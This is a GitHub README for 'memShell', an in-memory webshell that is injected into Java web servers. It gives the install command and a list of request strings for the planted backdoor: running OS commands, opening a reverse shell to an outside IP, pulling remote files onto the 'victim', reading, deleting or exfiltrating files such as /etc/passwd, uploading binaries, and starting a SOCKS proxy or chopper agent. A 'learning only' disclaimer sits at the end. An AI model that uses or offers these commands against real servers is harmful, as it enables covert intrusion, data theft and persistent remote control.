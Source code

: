 # memShell
a webshell resides in the memory of java web server

# install
* unzip memShell.zip
* cd memShell
* java -jar inject.jar
# usage
* anyurl?pwd=pass //show this help page.  
* anyurl?pwd=pass&model=exec&cmd=whoami  //run os command.  
* anyurl?pwd=pass&model=connectback&ip=8.8.8.8&port=51 //reverse a shell back to 8.8.8.8 on port 51.  
* anyurl?pwd=pass&model=urldownload&url=http://xxx.com/test.pdf&path=/tmp/test.pdf //download a remote file via the victim's network directly.  
* anyurl?pwd=pass&model=list[del|show]&path=/etc/passwd  //list,delete,show the specified path or file.  
* anyurl?pwd=pass&model=download&path=/etc/passwd  //download the specified file on the victim's disk.  
* anyurl?pwd=pass&model=upload&path=/tmp/a.elf&content=this_is_content[&type=b]   //upload a text file or a base64 encoded binary file to the victim's disk.  
* anyurl?pwd=pass&model=proxy  //start a socks proxy server on the victim.  
* anyurl?pwd=pass&model=chopper  //start a chopper server agent on the victim.  

**!!!It is recommended to use the POST method to submit data.** 

# note
For learning exchanges only, do not use for illegal purposes.by rebeyond.
